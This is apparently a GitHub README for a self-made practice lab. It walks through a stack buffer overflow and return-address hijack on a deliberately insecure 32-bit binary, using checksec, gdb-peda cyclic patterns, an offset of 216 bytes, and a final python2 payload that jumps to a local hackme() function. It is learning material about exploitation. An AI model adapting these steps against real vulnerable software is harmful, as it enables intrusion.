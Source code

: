 # bo-rop
Practicing buffer overflow using a ROP by [cr0w](https://youtu.be/6sUd3AA7Q50)

# Building
`gcc -m32 -no-pie insecure.c -o insecure`

# Target information
1. We are working in x86 (compiled with `-m32`)
2. Not stripped binary, so that we have the symbols in `gdb`
3. NX is enabled, we are forced to use ROP rather than write and [run shellcode directly from the stack](https://en.wikipedia.org/wiki/NX_bit).
4. PIE is disabled (compiled with `-no-pie`)

`file insecure`
> insecure: **ELF 32-bit LSB pie executable**, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=dee42c33330fab103841ff5f0745bdbdccb0705a, for GNU/Linux 3.2.0, **not stripped**

`pwn checksec ./insecure`
> Arch:       i386-32-little
> 
> RELRO:      Partial RELRO
> 
> Stack:      No canary found
> 
> NX:         NX enabled
>
> PIE:        No PIE (0x8048000)
> 
> Stripped:   No



# Exploitation

## Input

Using `python2` we can generate an input and pipe it to the program, resulting in a segfault:

`python2 -c 'print "A"*400' | ./insecure`

> [+] user supplied: 400-bytes!
> 
> fish: Process 60137, './insecure' from job 1, 'python2 -c 'print "A"*400' | ./…' terminated by signal SIGSEGV (Address boundary error)


## Controlling the EIP

`gdb-peda$ r < input.txt`

We can see the EIP being overwritten to `0x41414141 ('AAAA')`


In order to control the EIP we must first find what offset it is in our overflowed buffer, we create a recognizable pattern:

`gdb-peda$ pattern create 400`

> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y

We run the program with our pattern as an input and look for the EIP value:

`gdb-peda$ r < pattern.txt`

> EIP: 0x4325416e ('nA%C')


Now we can search the pattern:

`gdb-peda$ pattern offset 0x4325416e`

> 1126515054 found at offset: **216**

## Testing EIP

We check if the offset is correct by setting `BBBB` right where EIP should be. First we generate the input:

`python2 -c 'print "A"*216 + "BBBB"' > b_test.txt`

We run the program with out b test:

`gdb-peda$ r < b_test.txt`

> EIP: 0x42424242 ('BBBB')

and it worked!!

## ROP time

`gdb-peda$ info functions`

> All defined functions:

> Non-debugging symbols:

> 0x08049000  _init

> 0x08049030  __libc_start_main@plt

> 0x08049040  read@plt

> 0x08049050  printf@plt

> 0x08049060  system@plt

> 0x08049070  _start

> 0x0804909d  __wrap_main

> 0x080490b0  _dl_relocate_static_pie

> 0x080490c0  __x86.get_pc_thunk.bx

> 0x080490d0  deregister_tm_clones

> 0x08049110  register_tm_clones

> 0x08049150  __do_global_dtors_aux

> 0x08049180  frame_dummy

> 0x08049186  hackme

> 0x080491b1  secure

> 0x0804921a  main

> 0x08049236  __x86.get_pc_thunk.ax

> 0x0804923c  _fini

We can see `hackme()` located at `0x08049186`.

Now we can just put the address of `hackme()` inside the EIP, and it will return into the function!

`python2 -c 'print("A"*216 + "\x86\x91\x04\x08")' | ./insecure`

> hacked!

**Fin**
